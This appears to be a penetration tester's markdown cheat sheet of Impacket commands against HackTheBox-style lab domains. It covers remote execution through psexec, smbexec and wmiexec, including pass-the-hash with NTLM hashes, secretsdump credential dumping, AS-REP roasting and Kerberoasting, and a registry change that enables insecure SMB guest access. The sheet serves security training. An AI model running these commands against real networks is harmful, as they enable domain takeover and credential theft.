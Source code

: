 # Impacket Tools

## Impacket SMBServer
```
$sudo python3 impacket-smbserver -u <username> -p <password> <name of share> <location of share>
$sudo python3 impacket-smbserver -smb2support -u <username> -p <password> <name of share> <location of share>
$sudo impacket-smbserver -smb2support <name of share> `pwd`
$sudo python3 smbserver.py -smb2support files $(pwd) -username test -password test

Sample Usage: $python3 impacket-smbserver -u myusername -p secretpassword myshare $(pwd)
Tip: use $(pwd) for the current working  directory
```

 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

## PSExec
```
[Sample Usage] python3 psexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 psexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] psexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
[PTH] psexec.py INLANEFREIGHT.LOCAL/Administrator@172.16.5.5 -hashes "aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf"
```

## SMBExec
```
[Sample Usage] python3 smbexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 smbexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python3 smbexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## WMIExec
```
[Sample Usage] python3 wmiexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python wmiexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python wmiexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## MSSQLClient
```
$python3 mssqlclient.py -port 1433 -db volume -windows-auth <username>@<ip address>
```

## WMIExec
```
$python3 wmiexec.py <username@hostname>
$python3 wmiexec.py <username:password@hostname>
```

## LookupSID
```
$python3 lookupsid.py <domain/username@hostname>
$python3 lookupsid.py <domain/username:password@hostname>
```

## SecretsDumping
```
python secretsdump.py htb.local/Administrator@reel.htb.local (enter password when prompted)
```

## Windows 10 SMBShare Can Connect
[URL](https://www.youtube.com/watch?v=vyatMj1Z2NQ)
```
Regedit
Browse to: Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
Create a DWORD 32bit key: AllowInsecureGuestAuth and set to 1 for on, 0 for off
```

## GetNPUSers (ASRepRoasting)
Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```
python GetNPUsers.py htb.local/ -no-pass -usersfile domain_users.txt -format hashcat
```

## Kerberoasting
Query Domain for any Kerberoastable Users
```
python GetUserSPNs.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178
```

## Kerberoast (request ticket)
Request ticket for account
```
python GetUserSPNs.py ACTIVE.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178 -request -outputfile user-spn.hash
```